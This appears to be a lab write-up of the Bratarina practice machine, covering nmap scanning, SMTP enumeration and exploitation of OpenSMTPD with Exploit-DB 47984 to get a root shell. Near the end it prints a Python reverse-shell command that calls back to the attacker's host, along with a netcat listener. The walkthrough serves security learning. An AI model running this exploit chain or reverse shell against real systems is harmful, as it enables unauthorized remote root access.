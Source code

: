 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo nmap -A 192.168.82.71 -p- -T4 -v

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-01 16:13 WAT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating NSE at 16:13
Completed NSE at 16:13, 0.00s elapsed
Initiating Ping Scan at 16:13
Scanning 192.168.82.71 [4 ports]
Completed Ping Scan at 16:13, 0.29s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:13
Completed Parallel DNS resolution of 1 host. at 16:13, 0.03s elapsed
Initiating SYN Stealth Scan at 16:13
Scanning 192.168.82.71 [65535 ports]
Discovered open port 445/tcp on 192.168.82.71
Discovered open port 25/tcp on 192.168.82.71
Discovered open port 80/tcp on 192.168.82.71
Discovered open port 22/tcp on 192.168.82.71
SYN Stealth Scan Timing: About 6.04% done; ETC: 16:22 (0:08:02 remaining)
SYN Stealth Scan Timing: About 19.79% done; ETC: 16:18 (0:04:07 remaining)
SYN Stealth Scan Timing: About 34.38% done; ETC: 16:17 (0:02:54 remaining)
SYN Stealth Scan Timing: About 46.32% done; ETC: 16:17 (0:02:20 remaining)
SYN Stealth Scan Timing: About 57.98% done; ETC: 16:17 (0:01:49 remaining)
SYN Stealth Scan Timing: About 71.94% done; ETC: 16:17 (0:01:11 remaining)
Completed SYN Stealth Scan at 16:17, 242.39s elapsed (65535 total ports)
Initiating Service scan at 16:17
Scanning 4 services on 192.168.82.71
Completed Service scan at 16:17, 6.56s elapsed (4 services on 1 host)
Initiating OS detection (try #1) against 192.168.82.71
Retrying OS detection (try #2) against 192.168.82.71
Initiating Traceroute at 16:17
Completed Traceroute at 16:17, 0.27s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 16:17
Completed Parallel DNS resolution of 2 hosts. at 16:17, 0.06s elapsed
NSE: Script scanning 192.168.82.71.
Initiating NSE at 16:17
Completed NSE at 16:18, 40.22s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 1.68s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Nmap scan report for 192.168.82.71
Host is up (0.22s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.82], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Aggressive OS guesses: Linux 2.6.32 (88%), Linux 2.6.39 (88%), Linux 3.10 - 3.12 (88%), Linux 3.4 (88%), Linux 3.5 (88%), Linux 4.4 (88%), Synology DiskStation Manager 5.1 (88%), Linux 2.6.35 (87%), Linux 3.10 (87%), Linux 2.6.32 or 3.10 (87%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 26.225 days (since Fri Feb  3 10:53:46 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2023-03-01T10:17:45-05:00
| smb2-time: 
|   date: 2023-03-01T15:17:43
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   261.97 ms 192.168.49.1
2   262.34 ms 192.168.82.71

NSE: Script Post-scanning.
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Initiating NSE at 16:18
Completed NSE at 16:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 297.78 seconds
           Raw packets sent: 131317 (5.782MB) | Rcvd: 206 (9.112KB)

```
From the above scan we have 3 ports opened, port 22 which runs ssh, port 25 which runs smtp and port 80 which runs http. Our enumeration today will be focused more on port 25 and port 80


<h2>Enumeration Port 25</h2>

Lets try to check if there is an exploit for this smtp version

>command:nmap -p 25 --script smtp-vuln*.nse 192.168.91.71

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ nmap -p 25 --script smtp-vuln*.nse 192.168.91.71                                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-01 17:02 WAT
Nmap scan report for 192.168.91.71
Host is up (0.21s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE

Nmap done: 1 IP address (1 host up) scanned in 1.38 seconds

```
Okay, it is not vulnerable to the available exploit hehe. Lets try to see if we can get usernames 

>command:smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.82.71 -p 25

```
──(bl4ck4non㉿bl4ck4non)-[~]
└─$ smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.82.71 -p 25
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 168
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Mar  1 16:27:50 2023 #########
######## Scan completed at Wed Mar  1 16:28:16 2023 #########
0 results.

168 queries in 26 seconds (6.5 queries / sec)

```
oops, there's nothing hehe

Then I went back to my scan and found something

![image](https://user-images.githubusercontent.com/67879936/222197594-dfa51204-9db1-4d60-a103-121ee3786a6a.png)

Checking for the exploit of that version online, I found this

>link to exploit:https://www.exploit-db.com/exploits/47984



<h3>Exploitation Port 25</h3>

Download that exploit to your machine and lets try to run it
 
```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ python 47984.py                                                                              
Usage 47984.py <target ip> <target port> <command>
E.g. 47984.py 127.0.0.1 25 'touch /tmp/x'

```
Alright, so lets try to run it using the format we were given

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Bratarina]
└─$ python 47984.py 192.168.91.71 25 whoami              
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
Alright, our payload got sent successfully hehe

Now, lets try to execute our reverse shell so we can get a shell back on our machine.

For this we'll be using 2 different terminals

>command terinal 1:python 47984.py 192.168.91.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.91\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'

>command terminal 2:rlwrap nc -lvnp 80

Ensure you change the $IP to your own IP address

![image](https://user-images.githubusercontent.com/67879936/222204177-72c4a2d7-483a-40a3-a460-e8ad1e3e40bb.png)

![image](https://user-images.githubusercontent.com/67879936/222204274-fe5792e8-ff93-440f-99ad-24d3d2c504c9.png)

Boom!!! We got a shell as root. This means we don't need to go through the stress of checking other ports xD

That will be all for today






















